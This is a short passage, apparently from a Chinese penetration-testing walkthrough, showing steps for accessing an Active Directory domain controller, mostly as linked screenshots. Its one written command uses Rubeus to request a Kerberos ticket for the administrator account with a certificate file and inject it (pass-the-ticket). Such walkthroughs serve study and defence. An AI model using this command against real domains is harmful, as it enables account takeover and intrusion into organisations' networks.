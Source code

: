 [![](assets/1699407498-6cdc7b36fbcf187cd3057b744fe58496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106145243-15da36ec-7c71-1.png)  
Step 3：尝试访问域控  
[![](assets/1699407498-d7b1b8f8d2ca638f3e9c6edda1f9c1ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106145258-1ea9e718-7c71-1.png)  
Step 4：利用Rubeus请求票证，并将生成的票证用于PTT

```plain
Rubeus.exe asktgt /user:administrator /certificate:ADM.pfx /password:123456 /ptt
```
